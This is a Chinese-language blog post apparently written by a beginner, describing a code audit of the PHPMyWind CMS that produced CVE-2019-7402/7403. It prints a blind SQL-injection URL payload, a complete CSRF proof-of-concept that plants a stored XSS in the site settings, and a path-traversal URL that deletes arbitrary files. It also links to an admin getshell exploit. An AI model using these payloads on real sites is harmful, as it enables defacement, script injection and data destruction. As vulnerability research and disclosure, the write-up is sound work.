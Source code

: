 很水嘚 很水嘚 师傅们请绕道～～(已经被novy吐槽过了233)
正式学习代码审计一周，总算有点小收获了呢，好开森
CVE-2019-7402 CVE-2019-7403
打算写篇文章纪念一下，文章水平有限，还请师傅们多多指教～
学习代码审计这一周，首先花了一天时间复习了下php(php基础辣鸡嘚很233)，用一天时间看了dvwa的源码，然后一天多时间大概看了下bluecms，然后找到了phpmywind这个cms，没有框架又很小，还蛮适合初学者的。
下载源码就扔到Seay里面了，一堆注入

![图片](https://uploader.shimo.im/f/3PSZCCO8IFcAocrl.png!thumbnail)

先随便点开一个跟一下 发现每个参数的初始化都是在/include/common.inc.php里面，都会加上addslashes转义。

![图片](https://uploader.shimo.im/f/FlxaKxVCiY0XHG2g.png!thumbnail)

又没有宽字节或者其它的编码，基本上杜绝了非整型的注入，然后再看看int型的注入，在所有的前台查询中，都做了类型转换...

![图片](https://uploader.shimo.im/f/Av3OSVUZBcYike0U.png!thumbnail)

但是在所有后台查询int型参数没有做类型转换,但是所有的sql查询斗调用了Mysql类,里面自定义了CheckSql() 方法，主要是过滤了select sleep load_file into file等关键字，基于黑名单，总是可以绕过的，从网上搜了一下，构造出这样一个payload
>http://127.0.0.1/phpmywind/admin/admanage.php?tid=2-(if(53=(if(substr((rpad(version(),1,1)),1,1)=char(61),1,0)),1,0)) 

rpad函数返回很多行，需要group_concat函数进行处理，group_concat被过滤了，到此，我放弃尝试了233
然后继续去读源码，在footer.php文件中发现了GetQQ() 这个函数，跟进去看，没有做一点过滤

![图片](https://uploader.shimo.im/f/ZaRJ4uXjvPYjx0Wz.png!thumbnail)

但是这个参数的修改是需要后台管理员，但是整个cms没有做csrf的防护，构建个csrf的poc
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/phpmywind/admin/web_config.php" method="POST">
      <input type="hidden" name="cfg&#95;webname" value="�&#136;&#145;�&#154;&#132;�&#189;&#145;�&#171;&#153;" />
      <input type="hidden" name="cfg&#95;weburl" value="http&#58;&#47;&#47;127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="cfg&#95;webpath" value="&#47;phpmywind" />
      <input type="hidden" name="cfg&#95;author" value="" />
      <input type="hidden" name="cfg&#95;generator" value="PHPMyWind&#32;CMS" />
      <input type="hidden" name="cfg&#95;seotitle" value="" />
      <input type="hidden" name="cfg&#95;keyword" value="" />
      <input type="hidden" name="cfg&#95;description" value="" />
      <input type="hidden" name="cfg&#95;copyright" value="Copyright&#32;�&#169;&#32;2015&#32;&#45;&#32;2018&#32;phpMyWind&#46;com&#32;All&#32;Rights&#32;Reserved" />
      <input type="hidden" name="cfg&#95;hotline" value="400&#45;800&#45;8888" />
      <input type="hidden" name="cfg&#95;icp" value="" />
      <input type="hidden" name="cfg&#95;webswitch" value="Y" />
      <input type="hidden" name="cfg&#95;switchshow" value="�&#175;&#185;�&#184;&#141;�&#183;�&#188;&#140;�&#189;&#145;�&#171;&#153;�&#187;&#180;�&#138;&#164;�&#188;&#140;�&#175;&#183;�&#168;&#141;�&#144;&#142;�&#153;&#187;�&#189;&#149;�&#128;&#130;&lt;br&#32;&#47;&gt;�&#189;&#145;�&#171;&#153;�&#187;&#180;�&#138;&#164;�&#156;&#159;�&#151;&#180;�&#175;&#185;�&#130;&#168;�&#128;&#160;�&#136;&#144;�&#154;&#132;�&#184;&#141;�&#190;&#191;�&#188;&#140;�&#175;&#183;�&#176;&#133;�&#167;&#163;�&#188;&#129;" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;upload&#95;img&#95;type" value="gif&#124;png&#124;jpg&#124;bmp" />
      <input type="hidden" name="cfg&#95;upload&#95;soft&#95;type" value="zip&#124;gz&#124;rar&#124;iso&#124;doc&#124;xls&#124;ppt&#124;wps&#124;txt" />
      <input type="hidden" name="cfg&#95;upload&#95;media&#95;type" value="swf&#124;flv&#124;mpg&#124;mp3&#124;rm&#124;rmvb&#124;wmv&#124;wma&#124;wav" />
      <input type="hidden" name="cfg&#95;max&#95;file&#95;size" value="2097152" />
      <input type="hidden" name="cfg&#95;imgresize" value="Y" />
      <input type="hidden" name="cfg&#95;countcode" value="" />
      <input type="hidden" name="cfg&#95;qqcode" value="&quot;&gt;&lt;img&#32;src&#61;1&#32;onerror&#61;alert&#40;1&#41;&gt;&lt;img&#32;src&#61;&quot;aaa" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;mysql&#95;type" value="mysqli" />
      <input type="hidden" name="cfg&#95;pagenum" value="20" />
      <input type="hidden" name="cfg&#95;timezone" value="8" />
      <input type="hidden" name="cfg&#95;mobile" value="Y" />
      <input type="hidden" name="cfg&#95;member" value="Y" />
      <input type="hidden" name="cfg&#95;oauth" value="Y" />
      <input type="hidden" name="cfg&#95;comment" value="Y" />
      <input type="hidden" name="cfg&#95;maintype" value="N" />
      <input type="hidden" name="cfg&#95;typefold" value="N" />
      <input type="hidden" name="cfg&#95;quicktool" value="Y" />
      <input type="hidden" name="cfg&#95;diserror" value="Y" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;isreurl" value="N" />
      <input type="hidden" name="cfg&#95;reurl&#95;index" value="index&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;about" value="&#123;about&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;news" value="&#123;news&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;newsshow" value="&#123;newsshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;product" value="&#123;product&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;productshow" value="&#123;productshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;case" value="&#123;case&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;caseshow" value="&#123;caseshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;join" value="&#123;join&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;joinshow" value="&#123;joinshow&#125;&#45;&#123;id&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;message" value="&#123;message&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;contact" value="&#123;contact&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;soft" value="&#123;soft&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;softshow" value="&#123;softshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;goods" value="&#123;goods&#125;&#45;&#123;cid&#125;&#45;&#123;tid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;goodsshow" value="&#123;goodsshow&#125;&#45;&#123;cid&#125;&#45;&#123;tid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;vote" value="&#123;vote&#125;&#45;&#123;id&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;custom" value="&#123;file&#125;&#46;html" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;auth&#95;key" value="TzdVWeg0DGP8bRO6" />
      <input type="hidden" name="cfg&#95;alipay&#95;uname" value="" />
      <input type="hidden" name="cfg&#95;alipay&#95;partner" value="" />
      <input type="hidden" name="cfg&#95;alipay&#95;key" value="" />
      <input type="hidden" name="cfg&#95;qq&#95;appid" value="" />
      <input type="hidden" name="cfg&#95;qq&#95;appkey" value="" />
      <input type="hidden" name="cfg&#95;weibo&#95;appid" value="" />
      <input type="hidden" name="cfg&#95;weibo&#95;appkey" value="" />
      <input type="hidden" name="action" value="update" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
一个首页存储型xss就完成啦

![图片](https://uploader.shimo.im/f/dNr7tm7QVm0JfTB2.png!thumbnail)

继续审计，找到了database_backup.php 删除文件操作没有做参数过滤 
![图片](https://uploader.shimo.im/f/yVnXZ8CBJMkt9neF.png!thumbnail)
![图片](https://uploader.shimo.im/f/NdhhTKvv3JcbvMr5.png!thumbnail)![图片](https://uploader.shimo.im/f/mYVA99QL8W8ptvRl.png!thumbnail)
构造url
>http://127.0.0.1:8080/phpmywind/admin/database_backup.php?action=import&dopost=deldir&tbname=../../../../../../../bbb

成功删除C盘文件
![图片](https://uploader.shimo.im/f/pjF5RZicTSwBah80.png!thumbnail)

在最后在/admin/goods_update.php处发现一处后台getshell，问题出在common.func.php String2Array 本来超级高兴的，可是网上一看已经被提交过了2333 附上链接 [https://github.com/panghusec/exploit/issues/4](https://github.com/panghusec/exploit/issues/4)

![图片](https://uploader.shimo.im/f/GeTwwbqOl7gty606.png!thumbnail)

感觉整体审计的也差不多了，这个年过的很有意思(虽说有点宅233) 
新年快乐 keep fighting~
